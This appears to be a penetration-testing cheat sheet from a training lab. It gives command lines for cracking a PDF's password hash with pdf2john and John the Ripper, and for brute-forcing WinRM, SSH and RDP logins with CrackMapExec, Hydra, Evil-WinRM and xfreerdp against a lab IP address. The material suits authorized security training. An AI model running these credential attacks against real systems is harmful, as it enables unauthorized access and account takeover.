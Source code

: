 ```Shell
pdf2john server_doc.pdf > server_doc.hash
```

```Shell
john server_doc.hash
```
`#OR`
```Shell
john --wordlist=<wordlist.txt> server_doc.hash
```

#### Location of 2john tools
```Shell
locate *2john*
```


## Network Services

### WinRM

#### CrackMapExec Protocol Specific Help
```Shell
crackmapexec smb -h
```

#### CrackMapExec against WinRM
```Shell
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

#### Using Evil-WinRM
```Shell
evil-winrm -i 10.129.42.197 -u user -p password
```

### SSH

#### Hydra - SSH
```Shell
hydra -L user.list -P password.list ssh://10.129.42.197
```

### RDP

#### Hydra - RDP
```Shell
hydra -L user.list -P password.list rdp://10.129.42.197
```

#### Logging in over xFreeRDP
```Shell
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```
